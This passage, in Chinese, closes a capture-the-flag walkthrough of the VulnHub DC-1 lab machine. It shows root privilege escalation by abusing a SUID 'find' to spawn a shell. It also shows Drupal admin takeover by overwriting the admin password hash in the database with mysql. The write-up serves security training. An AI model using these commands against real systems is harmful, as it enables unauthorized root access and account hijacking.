 看到 find 没有,今天就让我提个痛快
```bash
find . -exec /bin/sh \; -quit
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/15.png)

```
ls /root
cat /root/thefinalflag.txt
```

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/16.png)

---

# 补充

在 flag3 跑 hashcat 时,如果跑不出密码,除了 google 以外还有2种方式登录 admin 账号
- 直接数据库修改 Drupal users 表
- 通过 drush 修改 admin 用户的密码

**直接数据库修改 Drupal users 表**

我都爆出了 Fred 的明文 MyPassword 了,那我直接把 admin 的改成和 Fred 的一样不就行了
```bash
mysql -u dbuser -p
use drupaldb;
update users set pass='$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg' where name='admin';
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/17.png)
